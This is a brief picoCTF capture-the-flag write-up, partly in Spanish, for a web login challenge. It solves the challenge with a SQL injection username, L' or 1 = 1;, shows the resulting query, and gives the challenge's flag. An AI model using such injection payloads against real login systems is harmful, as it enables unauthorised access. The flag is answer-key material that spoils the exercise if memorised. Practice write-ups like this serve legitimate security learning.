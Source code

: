 ## Descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

## Pistas 
****** 
## Solucion
```sql
--username: L' or 1 = 1;
--password: haaaa
SQL query: SELECT * FROM users WHERE name='L' or 1 = 1;' AND password='haaaa'
```
## bandera
picoCTF{s0m3_SQL_f8adf3fb}

## Notas adicionales 

## Referencias